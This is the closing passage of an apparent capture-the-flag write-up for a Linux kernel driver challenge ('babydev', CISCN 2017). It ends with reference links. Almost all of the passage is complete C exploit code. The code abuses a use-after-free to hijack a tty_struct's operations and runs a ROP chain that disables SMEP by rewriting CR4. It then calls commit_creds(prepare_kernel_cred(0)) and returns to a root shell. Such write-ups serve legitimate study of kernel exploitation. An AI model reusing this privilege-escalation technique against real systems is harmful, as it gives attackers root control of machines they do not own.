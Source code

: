 ```c
            "pushf;"
            "pop user_rflags;"
            );
    puts("[*]status has been saved.");
}
uint64_t commit_cred  = 0xffffffff810a1420;
uint64_t prepare_kernel_cred =0xffffffff810a1810;

void get_root()
{
    uint64_t (* a)();
    a = prepare_kernel_cred;
    uint64_t (* b)();
    b = commit_cred;
    b(a(0));

}
void bypass_smep()
{
    save_status();
    int f1 = open("/dev/babydev",2);
    int f2 = open("/dev/babydev",2);
    ioctl(f1,0x10001,0x2e0);
    close(f1);
    f1 = open("/dev/ptmx",2| O_NOCTTY);
    size_t buf[0x100] = {0};
    size_t fake[0x100] = {0};
    size_t rop[0x100] = {0};
    fake[7] = 0xFFFFFFFF8181BFC5;
    fake[0] = 0xffffffff8100ce6e;
    fake[1] = rop;
    fake[2] = 0xFFFFFFFF8181BFC5;
    uint ct = 0 ;
    rop[ct++] = 0xffffffff810d238d;
    rop[ct++] = 0x6f0;
    rop[ct++] = 0xffffffff81004d80; //mov cr4, rdi; pop ; ret
    rop[ct++] = 0;
    rop[ct++] = get_root;
    rop[ct++] = 0xffffffff81063694; //swapgs; pop ; ret
    rop[ct++] = 0;
    rop[ct++] = 0xffffffff814e35ef; //iretq
    rop[ct++] = shell;
    rop[ct++] = user_cs;
    rop[ct++] = user_rflags;
    rop[ct++] = user_sp;
    rop[ct++] = user_ss;
    
    read(f2,buf,0x20);
    buf[3] = fake;
    write(f2,buf,0x20);

    char trash[0x20];
    write(f1,trash,0x20);
}
int main()
{
    bypass_smep();
}
```
# Summary

[1]: https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/kernel
[2]: https://github.com/n132/attachment
[3]: https://github.com/n132/attachment/tree/main/CISCN_2017
[4]: https://code.woboq.org/linux/linux/include/linux/tty.h.html#tty_struct
[5]: https://code.woboq.org/linux/linux/include/linux/tty_driver.h.html#tty_operations